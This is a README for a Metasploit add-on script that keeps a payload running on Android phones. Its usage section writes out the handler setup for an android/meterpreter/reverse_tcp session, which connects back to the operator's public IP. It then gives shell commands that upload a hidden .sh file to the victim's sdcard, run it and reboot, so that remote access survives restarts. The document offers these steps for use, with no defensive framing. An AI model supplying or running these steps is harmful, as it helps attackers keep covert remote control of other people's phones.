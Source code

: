 # MSF PERSISTANCE ANDROID

![msf](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-msf.png) ![android](https://raw.githubusercontent.com/oda-alexandre/msf-persistance-android/master/img/logo-android.png)


## INDEX

- [MSF PERSISTANCE ANDROID](#msf-persistance-android)
  - [INDEX](#index)
  - [BADGES](#badges)
  - [FIRST UPDATE](#first-update)
  - [INTRODUCTION](#introduction)
  - [PREREQUISITES](#prerequisites)
  - [USE](#use)
  - [LICENSE](#license)


## BADGES

[![pipeline status](https://gitlab.com/oda-alexandre/msf-persistance-android/badges/master/pipeline.svg)](https://gitlab.com/oda-alexandre/msf-persistance-android/commits/master)


## FIRST UPDATE

Date: 01-01-01


## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.


## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)


## USE

1 - Put the msf-persistance-android.sh script in your personal folder and rename .sh


2 - Open MSF

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOICE
exploit
```


3 - Copie/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```
cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```


## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
